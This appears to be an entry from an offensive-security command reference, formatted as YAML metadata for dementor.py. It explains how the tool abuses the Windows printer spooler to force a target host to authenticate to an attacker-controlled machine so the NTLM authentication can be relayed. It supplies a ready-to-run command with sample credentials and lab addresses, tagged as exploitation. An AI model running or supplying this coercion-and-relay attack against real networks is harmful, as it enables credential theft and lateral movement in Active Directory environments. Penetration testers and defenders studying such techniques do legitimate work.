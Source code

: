 ```yaml
---
description: |
  dementor.py interacts with the printer spooler on a host to trigger an authentication from the target IP to an attacker controlled host (usually an SMB or HTTP server). This captured authentication can then be relayed to authenticated to other hosts. See more in ntlmrelayx.py.

  Command Reference:

  	Target IP: 10.10.10.1

  	Attacker IP: 10.10.10.2

  	Domain: test.local

  	Username: john

  	Password: password123

command: |
  python3 dementor.py -u john -p password123 -d test.local 10.10.10.2 10.10.10.1
items:
  - Password
  - Username
services:
  - RPC
  - NTLM
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc
  - https://www.praetorian.com/blog/active-directory-computer-account-smb-relaying-attack
---
```


